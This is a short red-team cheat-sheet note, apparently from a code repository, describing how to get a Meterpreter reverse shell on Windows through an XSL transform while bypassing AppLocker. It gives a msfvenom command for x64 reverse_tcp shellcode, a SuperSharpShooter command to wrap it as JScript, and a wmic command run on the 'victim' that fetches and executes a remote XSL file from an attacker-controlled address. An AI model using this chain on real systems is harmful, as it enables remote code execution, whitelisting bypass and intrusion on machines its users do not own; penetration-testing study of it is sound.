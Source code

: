 # XSL Transform

Can be combined with JScript code (SuperSharpShooter) to get a meterpreter shell.

> ![CAUTION]

> Bypasses default AppLocker Rules.
> We can use 64bit shellcode.

### Create shellcode:
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt`

### Create JScript using SuperSharpShooter:

`python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test`

Embed the JS content to the XSL template, and on victim, run: `wmic process get /format:"http://192.168.0.1/test.xsl"`
